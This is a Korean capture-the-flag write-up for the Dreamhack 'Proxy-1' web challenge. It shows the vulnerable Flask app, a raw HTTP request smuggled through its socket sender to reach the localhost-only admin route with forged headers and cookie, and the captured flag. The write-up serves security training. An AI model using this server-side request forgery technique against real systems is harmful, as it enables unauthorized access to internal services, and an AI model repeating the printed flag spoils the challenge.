 https://honey-push-30b.notion.site/Proxy-1-40db37abd8a7417297bd05e21792c40b
# 문제파일 다운로드

![proxy-1.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/273e18bd-253e-441c-b410-b9f557c47d03/proxy-1.png)

Proxy-1 문제의 접속 정보와 문제파일을 다운로드 받을 수 있다. 다운로드 받으면 [app.py](http://app.py) 파일을 받을 수 있는데 이 파일의 코드는 아래와 같다.

```python
#!/usr/bin/python3
from flask import Flask, request, render_template, make_response, redirect, url_for
import socket

app = Flask(__name__)

try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/socket', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('socket.html')
    elif request.method == 'POST':
        host = request.form.get('host')
        port = request.form.get('port', type=int)
        data = request.form.get('data')

        retData = ""
        try:
            with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
                s.settimeout(3)
                s.connect((host, port))
                s.sendall(data.encode())
                while True:
                    tmpData = s.recv(1024)
                    retData += tmpData.decode()
                    if not tmpData: break
            
        except Exception as e:
            return render_template('socket_result.html', data=e)
        
        return render_template('socket_result.html', data=retData)

@app.route('/admin', methods=['POST'])
def admin():
    if request.remote_addr != '127.0.0.1':
        return 'Only localhost'

    if request.headers.get('User-Agent') != 'Admin Browser':
        return 'Only Admin Browser'

    if request.headers.get('DreamhackUser') != 'admin':	
        return 'Only Admin'

    if request.cookies.get('admin') != 'true':
        return 'Admin Cookie'

    if request.form.get('userid') != 'admin':
        return 'Admin id'

    return FLAG

app.run(host='0.0.0.0', port=8000)
```

## Index

![첫페이지.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/4da950c3-2f37-4b10-b6d3-7ac713f5f062/%EC%B2%AB%ED%8E%98%EC%9D%B4%EC%A7%80.png)

Index페이지는 특별하게 고려할 사항은 없고 raw socket sender를 클릭하면 login페이지로 이동한다

## login 페이지

![raw socket sender.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/fa693768-0e10-4531-9e64-16a1ac284012/raw_socket_sender.png)

```python
@app.route('/socket', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('socket.html')
    elif request.method == 'POST':
        host = request.form.get('host')
        port = request.form.get('port', type=int)
        data = request.form.get('data')

        retData = ""
        try:
            with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
                s.settimeout(3)
                s.connect((host, port))
                s.sendall(data.encode())
                while True:
                    tmpData = s.recv(1024)
                    retData += tmpData.decode()
                    if not tmpData: break
            
        except Exception as e:
            return render_template('socket_result.html', data=e)
        
        return render_template('socket_result.html', data=retData)
```

Get으로 페이지를 불러오면(클릭해서 접속하면) 위와같은 페이지가 나타난다. 

POST의 경우 사용자가 입력한 host,port로 사용자가 입력한 data를 전송한 뒤 그 응답값을 받아온다.

## admin 함수

```python
@app.route('/admin', methods=['POST'])
def admin():
    if request.remote_addr != '127.0.0.1':
        return 'Only localhost'

    if request.headers.get('User-Agent') != 'Admin Browser':
        return 'Only Admin Browser'

    if request.headers.get('DreamhackUser') != 'admin':	
        return 'Only Admin'

    if request.cookies.get('admin') != 'true':
        return 'Admin Cookie'

    if request.form.get('userid') != 'admin':
        return 'Admin id'

    return FLAG
```

Admin페이지는 post로만 접근할 수 있다. 근데 이때 

1. 접근한 주소가 127.0.0.1(본인)이어야하고
2. User-Agent 헤더가 Admin Browser여야하며
3. DreamhackUser 헤더 또한 admin이어야하며
4. 쿠키 admin의 값이 true여야하고
5. 데이터의 userid값이 admin이어야 flag값을 리턴해준다.

# 문제 해결

socket으로 data form에 입력된 값들을 전부 보내고 그 응답값을 받아오므로 socket을 통해 request 요청을 한다. 그러면 서버에서 본인의 admin페이지로 요청하기 때문에 주소가 127.0.0.1이어서 첫번째 조건은 통과한다. 

```python
app.run(host='0.0.0.0', port=8000)
```

그리고 포트번호는 8000포트로 실행되는 것을 알기 때문에 8000으로 정해준다.

그 외의 요청은 dreamhack의 Introduction of webhacking([https://learn.dreamhack.io/6#13](https://learn.dreamhack.io/6#13)) 강좌의 500 Internal Server Error 의 Request를 참고하였다.

![예시.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/88653985-b670-4276-858b-d6094fa913eb/%EC%98%88%EC%8B%9C.png)

초록색부분은 메소드 

파란색은 상세페이지 

빨간색은 그대로쓰고

갈색으로 된부분은 헤더 

보라색은 data부분이므로 이를 위 조건에 맞춰서 띄어쓰기와 줄바꿈에 유의하여 작성하면 아래코드가 된다. 참고로 이때 보라색 부분의 길이에 맞춰서 헤더에 content length와 content type도 작성해야한다.

```html
POST /admin HTTP/1.1
Host: http://host3.dreamhack.games:13390/
Connection: keep-alive
User-Agent: Admin Browser
DreamhackUser: admin
Cookie: admin=true;
Content-Length: 12
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

userid=admin
```

![답.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a6944b90-21de-4b7a-8ee0-b6266cbaff05/%EB%8B%B5.png)

작성한 requests를 담아서 전송하면 아래와 같이 플래그 값이 나오는것을 확인할 수 있다.

![결과.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/9e0f93d4-c82d-4ef2-8df9-37e7512fcc9c/%EA%B2%B0%EA%B3%BC.png)

```html
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 36
Server: Werkzeug/1.0.1 Python/3.8.2
Date: Thu, 11 Aug 2022 18:17:25 GMT

DH{9bb7177b6267ff7288e24e06d8dd6df5}
```

DH{9bb7177b6267ff7288e24e06d8dd6df5} 플래그를 획득했다
